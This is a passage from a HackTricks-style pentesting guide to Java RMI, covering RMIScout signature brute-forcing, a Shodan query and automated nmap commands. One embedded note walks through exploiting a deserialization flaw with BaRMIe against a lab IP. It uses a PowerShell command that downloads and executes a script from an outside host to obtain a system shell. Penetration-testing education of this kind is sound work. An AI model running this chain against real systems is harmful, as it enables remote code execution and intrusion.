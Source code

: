 **RMIScout needs to test both possible signature formats** because the overloaded methods use a distinct alternative format.

**5. We need to use JRE8 to successfully use RMIScout's RMI-IIOP functionality**

JRE9 stripped out RMI-IIOP functionality, so to run these tests and take advantage of existing standard library code, **we need to use JRE8**.

**Overall, there is a risk of accidental invocation in brute-forcing these signatures**. As such, RMIScout displays a warning prior to running IIOP brute-forcing. However, it is also significantly easier to enumerate signatures for IIOP. Using **custom wordlists with method names least likely to cause harm is recommended** \(e.g., a method name like `deleteRecord` may match against `deleteRecord(int)` whereas `evaluateString` is less likely to match a primitive\).

We can still achieve arbitrary Java deserialization by replacing object or array types in a method signature. **Unlike RMI-JRMP, `String` types can still be exploited in RMI-IIOP servers compiled with the latest build of the JDK8.**

## Shodan

* `port:1099 java`

## HackTricks Automatic Commands

```text
Protocol_Name: Java-RMI    #Protocol Abbreviation if there is one.
Port_Number:  1098     #Comma separated if there is more than one.
Protocol_Description: Java Remote Method Inclusion         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for Java-RMI
  Note: |
    The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an object that exists in one Java virtual machine to access and call methods that are contained in another Java virtual machine; This is basically the same thing as a remote procedure call, but in an object-oriented paradigm instead of a procedural one, which allows for communication between Java programs that are not in the same address space.

    nmap -sC -sV -Pn 10.11.1.73 -p 1100 
        may dump the reg of the java-rmi instance. If this is the case the machine may be vulnerable to a deserializaion exploit.
        BaRMIe.jar is the way to go to directly exploit this vulnerability.
        https://github.com/NickstaDB/BaRMIe/releases/tag/v1.01      is where the latest build is hosted, pre-built

    useage
        java -jar BaRMIe_v1.01.jar -attack 10.11.1.73 1100
        target select)          1
        available attacks)    1 (illegal bind deserialization)
        payloads)                1 (Apache Common Collections 3.1 worked for me, others may also work)
        OS Command)         powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://192.168.119.167:80/3232.ps1')"

        enjoy your system shell!

    https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi

Entry_2:
  Name: Nmap RMI
  Description: Nmap with RMI Scripts
  Command: nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1098 {IP}

Entry_3:
```